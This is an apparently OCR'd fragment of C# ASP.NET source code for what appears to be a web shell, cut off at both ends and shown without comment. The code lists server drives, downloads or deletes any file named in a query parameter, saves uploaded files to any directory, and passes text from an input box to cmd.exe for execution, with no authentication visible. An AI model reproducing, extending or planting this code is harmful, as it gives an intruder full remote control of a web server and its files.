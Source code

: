 ```http
			continue;
		string driveRoot = curdrive.RootDirectory.Name.Replace("\\", "");
		outstr += string.Format("<a href='?fdir={0}'>{1}</a>&nbsp;",
									HttpUtility.UrlEncode(driveRoot),
									HttpUtility.HtmlEncode(driveRoot));
	}
	lblDrives.Text = outstr;

	// send file ?
	if ((Request.QueryString["get"] != null) && (Request.QueryString["get"].Length > 0))
	{
		Response.ClearContent();
		Response.WriteFile(Request.QueryString["get"]);
		Response.End();
	}

	// delete file ?
	if ((Request.QueryString["del"] != null) && (Request.QueryString["del"].Length > 0))
		File.Delete(Request.QueryString["del"]);	

	// receive files ?
	if(flUp.HasFile)
	{
		string fileName = flUp.FileName;
		int splitAt = flUp.FileName.LastIndexOfAny(new char[] { '/', '\\' });
		if (splitAt >= 0)
			fileName = flUp.FileName.Substring(splitAt);
		flUp.SaveAs(dir + "/" + fileName);
	}

	// enum directory and generate listing in the right pane
	DirectoryInfo di = new DirectoryInfo(dir);
	outstr = "";
	foreach (DirectoryInfo curdir in di.GetDirectories())
	{
		string fstr = string.Format("<a href='?fdir={0}'>{1}</a>",
									HttpUtility.UrlEncode(dir + "/" + curdir.Name),
									HttpUtility.HtmlEncode(curdir.Name));
		outstr += string.Format("<tr><td>{0}</td><td>&lt;DIR&gt;</td><td></td></tr>", fstr);
	}
	foreach (FileInfo curfile in di.GetFiles())
	{
		string fstr = string.Format("<a href='?get={0}' target='_blank'>{1}</a>",
									HttpUtility.UrlEncode(dir + "/" + curfile.Name),
									HttpUtility.HtmlEncode(curfile.Name));
		string astr = string.Format("<a href='?fdir={0}&del={1}'>Del</a>",
									HttpUtility.UrlEncode(dir),
									HttpUtility.UrlEncode(dir + "/" + curfile.Name));
		outstr += string.Format("<tr><td>{0}</td><td>{1:d}</td><td>{2}</td></tr>", fstr, curfile.Length / 1024, astr);
	}
	lblDirOut.Text = outstr;

	// exec cmd ?
	if (txtCmdIn.Text.Length > 0)
	{
		Process p = new Process();
		p.StartInfo.CreateNoWindow = true;
		p.StartInfo.FileName = "cmd.exe";
		p.StartInfo.Arguments = "/c " + txtCmdIn.Text;
		p.StartInfo.UseShellExecute = false;
		p.StartInfo.RedirectStandardOutput = true;
		p.StartInfo.RedirectStandardError = true;
```